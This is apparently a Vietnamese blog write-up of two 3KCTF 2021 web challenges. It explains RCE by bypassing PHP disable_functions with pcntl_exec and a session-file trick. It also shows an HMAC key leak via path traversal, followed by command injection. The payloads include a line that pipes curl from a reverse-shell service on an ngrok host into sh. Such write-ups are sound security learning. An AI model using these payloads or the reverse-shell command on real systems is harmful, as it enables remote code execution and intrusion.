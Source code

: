 ```yaml
---
layout: post
title: "[WRITEUP 3KCTF 2021]: WEB"
categories: CTF
toc: true
---
```

Vì một số công việc cá nhân nên mình viết writeup sau ctf end khá lâu nên mình sẽ tự deploy một số challenge và một số mình chỉ phân tích code và chỉ ra cách exploit.

- Tất cả source của từng bài mình để ở đây nhé -> [src](https://github.com/DauHoangTai/CTF/tree/master/2021/3KCTF)
## Challenge Online_comliper
- Vì mình deploy lại ở local nên mình đi thẳng vào phân tích code của author cung cấp nhé

### Analysis Source
Chúng ta được cung cấp một source và code server được viết bằng python. Chú ý thì thấy có 2 enpoint
![image](https://user-images.githubusercontent.com/54855855/121495607-f5a6e400-ca03-11eb-85a1-16bc6c66d507.png)
Ở đoạn code này thì thấy có 2 hàm là `get_random_string` và `check_file`, 2 hàm này lần lượt có chức năng là tạo ra một chuỗi random và kiểm tra file đó có tồn tại hay không.
![image](https://user-images.githubusercontent.com/54855855/121495928-34d53500-ca04-11eb-9f83-ba1d545fb829.png)
Endpoint đầu tiền là `/save`. Đoạn code này chúng ta có 2 tham số để có thể nhập vào đo là `c_type` và `code`.
c_type nhận php hoặc python nhưng đoạn elif đã được comment lại vậy là chúng ta chỉ có thể nhập `php` vào. Sau đó khi chúng ta truyền tham số vào `code` thì sẽ được check len (phải < 100), tiếp tục filename được gán bằng chuỗi ramdom được tạo bằng hàm mình đã mô tả ở trên. Cuối cùng ghi nhưng gì mình truyền ở `code` vô file vừa được tạo.
![image](https://user-images.githubusercontent.com/54855855/121501634-9b108680-ca09-11eb-981d-a6a54f71bdf4.png)
Ở endpoint `compile` này thì có 2 tham số có thể control là `c_type` và `filename`. `c_type` chúng ta có thể nhập vào là php và py.
Nói chung ở đoạn code này là sẽ thực thi file mà mình đã tạo ở `/save`.
Điều lạ ở đây là lúc tạo file thì chỉ có tạo file php không có python nhưng lúc compile lại có.
Tiếp tục chú ý file php.ini thì hầu như các function có thể RCE đã bị disable.

### Solution
Ở trong php có 1 function là `get_defined_functions` để list ra các function. Sau khi mình list ra và filter các function đã bị disable thì thấy được có một số fucntion không được filter như: `pcntl_exec, session_id, session_start`. Ở đây mình sử dụng `pcntl_exec` để RCE

### Payload
`/save` -> `c_type=php&code=<?php+pcntl_exec('/bin/ls',['/']);?>`
`/compile` -> `c_type=php&filename=vmfxqs.php`
- Cũng có thể sử dụng `session_id,session_start` như sau:
`/save` -> `c_type=php&code=<?php+session_id('test');session_start();$_SESSION['import+os;os.system("ls+/")#']='s'?>`
khi tạo session thì thường là nó sẽ được lưu trong tmp với filename là sess_id
`/compile` -> `c_type=php&filename=/tmp/sess_test`

## Challenge Emoij
- Source mình đã ở trên nên ai muốn test thì chỉ cần download về, sau đó cd tới thư mục emoij và cuối cùng là gõ lệnh `php -S localhost:8080`.

### Analysis Source
![image](https://user-images.githubusercontent.com/54855855/122628659-8a36d380-d0e1-11eb-9dfc-24566cdf0227.png)
Đoạn code này thì chúng ta thấy được secret và flag đã được giấu đi (tất nhiên :v ). Ở hàm `fetch_and_parse` thì đọc content từ link github bằng hàm `file_get_contents` sau đó trả về mảng giá trị nằm trong "" của src.
![image](https://user-images.githubusercontent.com/54855855/122628670-a20e5780-d0e1-11eb-9e74-b539d9c72558.png)
Ở đây thì có 3 tham số nhận vào là `url, key, dir`. Nói chúng đoạn này sẽ gán giá trị trả về là 1 mảng cho biến emoijList. Còn nếu như không có dir thì sẽ kiểm trả `key` mình nhập vào có bằng với `hash_hmac('sha256', $url, $secret)` hay không.

### Solution
Điều chú ý ở đây ![image](https://user-images.githubusercontent.com/54855855/122628754-35478d00-d0e2-11eb-99b4-aa2e70696fa1.png)
là đoạn code này nó sẽ duyệt qua mảng đó mà in ra giá trị và key là `hash_hmac('sha256', $v, $secret)` => mình có thể control được cái $v và => sẽ tìm đc giá trị của hash_hmac với giá trị mình đã truyền vô. từ đó mình tìm có thể biết được cái key cần truyền vào là gì.
Step 1: tạo 1 repo github với nội dung như sau: mình đã tạo sẵn -> https://raw.githubusercontent.com/DauHoangTai/3kctf/main/index.html
Step 2: Mình sẽ path travel để server đọc content ở repo của mình. khi đó sẽ lấy được giá trị của hash_hmac => mình có key

### Payload
`?dir=../../../DauHoangTai/3kctf/main/index` => tìm được key của value này.
![image](https://user-images.githubusercontent.com/54855855/122646717-d66a2e00-d14a-11eb-9093-a7d28c83ad2f.png)
```
?url="%3bcurl+https%3a//reverse-shell.sh/0.tcp.ngrok.io%3a12756+|+sh%3b+%23&key=e5bd633a5ad60d3e0ad64b04fda2ba9236e8ad07a74386ab5fc91d6425e4a48f
```
Vậy đã là thành công.
![image](https://user-images.githubusercontent.com/54855855/122646886-b0915900-d14b-11eb-9910-24508569d68c.png)